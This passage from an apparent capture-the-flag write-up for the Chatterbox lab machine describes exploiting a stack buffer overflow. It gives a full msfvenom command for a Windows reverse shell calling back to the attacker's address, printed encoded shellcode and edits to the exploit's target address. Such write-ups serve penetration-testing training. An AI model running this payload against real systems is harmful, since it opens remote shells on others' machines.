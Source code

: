 * It looks like your classic stack buffer overflow that allows you to overflow the buffer and include malicious shell code that will get executed on the box.
* The exploit author was nice enough to give us the msfvenom command that generates the malicious payload \(_‘buf’_ variable\) including the bad characters to avoid. This makes our life so much easier! The command simply spawns the _calc.exe_ program on the target machine. So we’ll have to change the command to send a reverse shell back to our attack machine.
* We also need to change the _server\_address_ to that of the IP address of Chatterbox.
* There seems to be a length limit of 1152 bytes on the payload. Anything that exceeds that will probably not work. We’ll keep that in mind when using msfvenom to generate our reverse shell.

## Initial Foothold <a id="c189"></a>

Use msfvenom to generate the reverse shell payload.

```text
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We get back the following result.

```text
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3767 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
......[truncated]
```

The payload size is 774 bytes, so within the limit. Copy the payload and add it in place of the payload included in the exploit. Also change the IP address to Chatterbox’s IP address.

```text
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)
```
